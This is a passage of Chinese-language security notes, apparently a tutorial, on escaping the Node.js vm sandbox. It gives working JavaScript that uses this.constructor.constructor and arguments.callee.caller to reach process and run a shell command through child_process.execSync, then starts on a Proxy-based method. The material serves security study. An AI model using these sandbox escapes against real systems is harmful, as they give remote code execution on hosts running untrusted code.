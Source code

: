 这段代码会直接返回当前环境变量。<br />重点看一下runInNewContext的this指向，这里指向传给该方法的参数对象。<br />this对象的构造函数指向Function，Function的构造函数指向其constructor，这里的constructor能产生一个匿名函数annoymous，能生成以下代码。
```javascript
(function anonymous(
) {
return process.env
})
```
后面添加一对括号加以原地调用。
<a name="W9qIm"></a>
## 当this指向null
null比较特殊，没有原型链，不具有tostring和constructor属性。
```javascript
const vm = require('vm');
const script = `...`;
const sandbox = Object.create(null);
const context = vm.createContext(sandbox);
const res = vm.runInContext(script, context);
console.log('Hello ' + res)
```
arguments.callee.caller可以返回函数的调用者。
```javascript
const vm = require('vm');
const script = 
`(() => {
    const a = {}
    a.toString = function () {
      const cc = arguments.callee.caller;
      const p = (cc.constructor.constructor('return process'))();
      return p.mainModule.require('child_process').execSync('whoami').toString()
    }
    return a
  })()`;

const sandbox = Object.create(null);
const context = new vm.createContext(sandbox);
const res = vm.runInContext(script, context);
console.log('Hello ' + res)
```
自己带进去一段执行的脚本，让a的toString通过一个函数返回要给process对象，并且process对象里面包含了rce的攻击，returna，触发tostring，返回指定内容，在最后一对()用于执行。
<a name="YhLAK"></a>
## proxy劫持法
"Hook"函数通常是指在某个代码块执行前或执行后插入的自定义函数，可以通过在特定的代码位置挂载hook函数来改变代码执行的流程或者对代码进行跟踪、调试、记录等操作。<br />Hook函数常常应用在以下场景：<br />在代码块执行前，做一些预处理操作，比如：修改输入参数、记录操作日志、控制代码执行流程等。<br />在代码块执行后，做一些后续操作，比如：根据执行结果，处理一些逻辑、记录返回结果、打印日志等。<br />在实际的开发中，我们可以通过如下几种方式实现hook函数：<br />函数参数：可以将函数的钩子功能通过参数传递进来，然后在代码块中根据参数进行特定操作。<br />回调函数：可以将钩子函数作为回调函数传递进去，在代码块执行完成后调用。<br />AOP编程：通过改变函数的执行流程，将钩子函数织入到代码块中。可以使用类似装饰器、切面编程等方式实现。<br />Proxy代理：通过对函数进行代理，可以在代理中实现预处理或后处理等操作。

proxy就是一个hook函数，在我们去访问对象的属性时（不管是否存在）都会触发这个函数.
